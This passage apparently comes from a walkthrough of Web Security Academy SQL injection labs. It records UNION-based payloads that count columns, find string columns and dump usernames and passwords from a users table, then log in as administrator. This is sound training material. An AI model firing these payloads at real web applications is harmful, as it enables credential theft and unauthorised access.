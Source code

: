 `/filter?category=Pets' union select 'pwned', 'pwned'--`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/S1tviHIo2.png)

After checking for a while, I noticed that both return columns are of string data type.


### Retrieve all user information.

Next I make use of the following payload to assign the data I want to retrieve into the results of the original query.
`/filter?category=Pets' union select * from users--`

or 

`/filter?category=Pets' union select username,password from users--`

Result:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/B1iyaBIj2.png)

I found 3 accounts including information of `administrator`

### Login with adminstrator and get solved

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/Sy82aH8jn.png)

## Lab: SQL injection UNION attack, retrieving multiple values in a single column
### Description
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/ByiiZ88oh.png)

### Solution

Home page:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/HkxK4UIj3.png)

#### Identify weak points
`https://0a7a000e034d65d28550c77a0034007c.web-security-academy.net/filter?category=Gifts' or 1=1--`

#### Specify the number of columns to return
`https://0a7a000e034d65d28550c77a0034007c.web-security-academy.net/filter?category=Gifts' union select null, null--`

=> có 2 cột

#### Defines a column with string data type

After testing 2 times for 2 columns, I found that only the 2nd column got the response back.

`https://0a7a000e034d65d28550c77a0034007c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20null,%20%27col2%27--`
